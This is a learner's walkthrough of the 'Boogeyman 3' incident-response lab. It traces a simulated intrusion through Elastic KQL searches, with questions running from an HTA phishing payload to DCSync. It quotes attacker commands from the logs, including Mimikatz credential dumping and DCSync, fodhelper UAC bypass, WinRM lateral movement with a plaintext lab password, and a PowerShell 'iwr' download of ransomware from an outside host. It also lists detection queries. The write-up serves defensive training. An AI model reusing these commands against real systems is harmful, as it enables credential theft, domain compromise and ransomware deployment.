







## Boogeyman 3 : Full Short Note: Lurking in the Dark

### Scenario

The attacker used a phishing attachment against **Evan Hutchinson**, the CEO. The attachment looked like a PDF/ISO-style payload but actually executed an HTA payload through `mshta.exe`. From there, the attacker implanted a payload, created persistence, established C2, bypassed UAC, dumped credentials, moved laterally, performed DCSync, and finally downloaded ransomware.

---

## 1. Stage 1 Payload Execution

### Answer

```text
PID: 6392
```

How I found it:

I searched for the HTA payload / `mshta.exe` execution in Elastic.

Useful search:

```kql
process.name:"mshta.exe" or process.command_line:*ProjectFinancialSummary_Q3.pdf.hta*
```

What happened:

```text
mshta.exe executed the fake PDF/HTA payload:
D:\ProjectFinancialSummary_Q3.pdf.hta
```

Why attacker used it:

```text
mshta.exe is a legitimate Windows binary used to execute HTA files.
Attackers abuse it because it can run script code and often bypass simple detection.
```

---

## 2. File Implant / Payload Copy

### Answer

```cmd
"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
```

How I found it:

I searched child processes of `mshta.exe`.

Useful search:

```kql
process.parent.name:"mshta.exe"
```

or:

```kql
process.parent.command_line:*ProjectFinancialSummary_Q3.pdf.hta*
```

What happened:

```text
xcopy.exe copied D:\review.dat into the user Temp folder.
```

Simple meaning:

```text
D:\review.dat
→ C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
```

Why attacker used it:

```text
The attacker staged/implanted the malicious file in a writable user location for later execution.
```

---

## 3. Implanted File Execution

### Answer

```cmd
"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer
```

How I found it:

In the same child process list from `mshta.exe`, I saw `rundll32.exe`.

Useful search:

```kql
process.command_line:*review.dat*
```

What happened:

```text
rundll32.exe loaded review.dat and executed its DllRegisterServer export.
```

Why attacker used it:

```text
rundll32.exe is a trusted Windows LOLBIN used to execute DLL-like payloads.
```

---

## 4. Scheduled Task Persistence

### Answer

```text
Review
```

The full PowerShell command created a scheduled task:

```powershell
Register-ScheduledTask Review -InputObject $D -Force
```

What happened:

The attacker created a scheduled task named:

```text
Review
```

It runs:

```text
rundll32.exe C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat,DllRegisterServer
```

daily at:

```text
06:00
```

Why attacker used it:

```text
Scheduled tasks allow the malware to run again automatically and maintain persistence.
```

---

## 5. C2 Connection from Implanted File

### Answer

```text
165.232.170.151:80
```

How to find it:

Look for network activity after `review.dat` / `rundll32.exe` execution.

Useful searches:

```kql
process.command_line:*review.dat*
```

Then pivot by time/process to network fields, or search around that timestamp for external IP connections.

What happened:

```text
The implanted payload initiated a C2 connection to 165.232.170.151 on port 80.
```

Why attacker used it:

```text
C2 lets the attacker remotely send commands and receive output from the compromised machine.
```

---

## 6. UAC Bypass

### Answer

```text
fodhelper.exe
```

How I found it:

The question mentioned local admin + UAC bypass, so I searched common UAC bypass binaries:

```kql
process.name:("fodhelper.exe" or "computerdefaults.exe" or "eventvwr.exe" or "sdclt.exe")
```

What happened:

```text
rundll32.exe running review.dat launched fodhelper.exe.
```

Process chain:

```text
mshta.exe
→ rundll32.exe D:\review.dat,DllRegisterServer
→ fodhelper.exe
```

What `fodhelper.exe` is:

```text
fodhelper.exe is a legitimate Windows auto-elevated binary.
Attackers abuse it to bypass UAC and execute commands with higher privileges.
```

---

## 7. Credential Dumping Tool Download

### Answer

```text
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```

How I found it:

Search for download commands:

```kql
process.command_line:(*iwr* or *Invoke-WebRequest* or *wget* or *curl* or *certutil* or *DownloadFile* or *http*)
```

What happened:

```text
The attacker downloaded Mimikatz from GitHub.
```

Why attacker used it:

```text
Mimikatz is used to dump credentials, hashes, and perform pass-the-hash attacks.
```

---

## 8. First Dumped Credential Pair

### Answer

```text
itadmin:F84769D250EB95EB2D7D8B4A1C5613F2
```

How I found it:

Search for Mimikatz pass-the-hash activity:

```kql
*sekurlsa*
```

or:

```kql
process.command_line:*sekurlsa*
```

What happened:

```text
The attacker used Mimikatz sekurlsa::pth with the itadmin NTLM hash.
```

Why attacker used it:

```text
Pass-the-hash lets an attacker authenticate using an NTLM hash without knowing the plaintext password.
```

---

## 9. Remote Share Enumeration

### Answer

```text
IT_Automation.ps1
```

How I found it:

Search for remote share paths:

```kql
process.command_line:*\\\\*
```

Found:

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c cat FileSystem::\\WKSTN-1327.quicklogistics.org\ITFiles\IT_Automation.ps1
```

What happened:

```text
The attacker used PowerShell cat/Get-Content to read a file from a remote SMB share.
```

Why attacker used it:

```text
Internal scripts often contain credentials, admin logic, or useful infrastructure information.
```

---

## 10. New Plaintext Credentials Found

### Answer

```text
QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987
```

How I found it:

Search for PowerShell credential objects:

```kql
winlog.event_id:1 AND *PSCredential*
```

Found:

```powershell
$credential = New-Object PSCredential -ArgumentList ('QUICKLOGISTICS\allan.smith', (ConvertTo-SecureString 'Tr!ckyP@ssw0rd987' -AsPlainText -Force))
```

What happened:

```text
The attacker found credentials in IT_Automation.ps1 and used them for lateral movement.
```

---

## 11. Lateral Movement Target Host

### Answer

```text
WKSTN-1327
```

How I found it:

The command showed:

```powershell
Invoke-Command -Credential $credential -ComputerName WKSTN-1327 -ScriptBlock {whoami}
```

What happened:

```text
The attacker used PowerShell Remoting / WinRM to execute commands on WKSTN-1327.
```

---

## 12. Parent Process on Second Machine

### Answer

```text
wsmprovhost.exe
```

How I found it:

Search on the second machine for the remotely executed command:

```kql
winlog.event_id:1 and host.name:*WKSTN-1327* and process.command_line:*whoami*
```

What happened:

```text
wsmprovhost.exe spawned whoami.exe on WKSTN-1327.
```

Why:

```text
wsmprovhost.exe is Windows Remote Management Provider Host.
It commonly appears when commands are executed remotely through WinRM / PowerShell Remoting.
```

Process chain:

```text
Invoke-Command from first machine
→ WinRM connection to WKSTN-1327
→ wsmprovhost.exe
→ whoami.exe
```

---

## 13. Second Machine Credential Dump

### Answer

```text
administrator:00f80f2538dcb54e7adc715c0e7091ec
```

How I found it:

Search:

```kql
user.name : allan.smith AND "sekurlsa"
```

or:

```kql
process.command_line:*sekurlsa*
```

What happened:

```text
On WKSTN-1327, the attacker ran Mimikatz again and dumped/used the administrator hash.
```

---

## 14. DCSync Attack on Domain Controller

### Answer

```text
backupda
```

How I found it:

Search:

```kql
process.command_line:*dcsync* or process.command_line:*lsadump*
```

Found:

```text
mimikatz.exe "lsadump::dcsync /domain:quicklogistics.org /user:backupda" exit
```

What DCSync means:

```text
DCSync abuses Active Directory replication.
The attacker asks the Domain Controller to replicate password data, pretending to be a DC.
```

Why attacker used it:

```text
To dump domain account hashes directly from Active Directory.
```

Important concept:

```text
sekurlsa::logonpasswords = dump local memory credentials
lsadump::dcsync = dump domain credentials through AD replication
```

---

## 15. Ransomware Download

### Answer

```text
http://ff.sillytechninja.io/ransomboogey.exe
```

How I found it:

Search after DCSync for download commands:

```kql
process.command_line:(*iwr* or *Invoke-WebRequest* or *wget* or *curl* or *certutil* or *DownloadFile* or *Start-BitsTransfer* or *http*)
```

Found:

```powershell
iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe
```

What happened:

```text
After dumping domain credentials, the attacker downloaded ransomware.
```

Why attacker used it:

```text
After gaining broad access, ransomware is used to encrypt systems and maximize impact.
```

---

# Full Attack Chain

```text
Phishing attachment opened by CEO
→ mshta.exe executed fake PDF/HTA payload
→ xcopy.exe copied review.dat into Temp
→ rundll32.exe executed review.dat
→ scheduled task Review created for persistence
→ review.dat connected to C2 at 165.232.170.151:80
→ fodhelper.exe used for UAC bypass
→ Mimikatz downloaded from GitHub
→ credentials dumped
→ itadmin hash used with pass-the-hash
→ attacker accessed remote share on WKSTN-1327
→ IT_Automation.ps1 revealed allan.smith password
→ Invoke-Command used for lateral movement
→ wsmprovhost.exe executed commands on WKSTN-1327
→ administrator hash dumped
→ attacker reached DC01
→ DCSync used to dump backupda
→ ransomware downloaded from ff.sillytechninja.io
```

---

# Key Things I Learned

```text
mshta.exe can execute malicious HTA payloads.
xcopy.exe can be used to implant/stage files.
rundll32.exe can execute DLL-style payloads.
Scheduled tasks are common persistence.
fodhelper.exe is a common UAC bypass binary.
Mimikatz is used for credential dumping and pass-the-hash.
sekurlsa::pth means pass-the-hash.
UNC paths like \\HOST\Share show remote file access.
PowerShell PSCredential may expose username/password usage.
Invoke-Command usually means WinRM lateral movement.
wsmprovhost.exe on the target often confirms remote PowerShell execution.
lsadump::dcsync means Active Directory replication abuse.
Ransomware often appears after privilege escalation and domain compromise.
```

---

# Useful Search Patterns

```kql
process.name:"mshta.exe"
```

```kql
process.parent.name:"mshta.exe"
```

```kql
process.command_line:*review.dat*
```

```kql
process.name:("fodhelper.exe" or "computerdefaults.exe" or "eventvwr.exe" or "sdclt.exe")
```

```kql
process.command_line:(*iwr* or *Invoke-WebRequest* or *wget* or *curl* or *certutil* or *DownloadFile* or *http*)
```

```kql
*sekurlsa*
```

```kql
process.command_line:*\\\\*
```

```kql
winlog.event_id:1 AND *PSCredential*
```

```kql
host.name:*WKSTN-1327* and process.command_line:*whoami*
```

```kql
process.command_line:*dcsync* or process.command_line:*lsadump*
```

Main idea: follow the attacker by process chain, timestamp, parent process, command line, remote host, and credentials used.


-------------
---
#Fast note for Commands
`event.code : "1"  and process.command_line : *pdf*`


`event.code : "1" and process.parent.name:"mshta.exe"`

for finding the ip and port i used this:
`"rundll32.exe" and winlog.event_id : 3`


for this question i used below command: fodhelper.exe
`process.name:"fodhelper.exe"`

i used github to find the the url:
`*github*`


for finding the user credential find i used:
`*sekurlsa*`


for findinf the enumaration file :
`process.command_line:*\\\\*`

for finding the below question:
After getting the contents of the remote file, the attacker used the new credentials to move laterally. What is the new set of credentials discovered by the attacker? (format: username:password) and the next question
`winlog.event_id : 1 AND *PSCredential*`

i found with this the second : sekurlsa
`user.name : allan.smith AND "sekurlsa"`
------------------------------------------------------
#Pictures








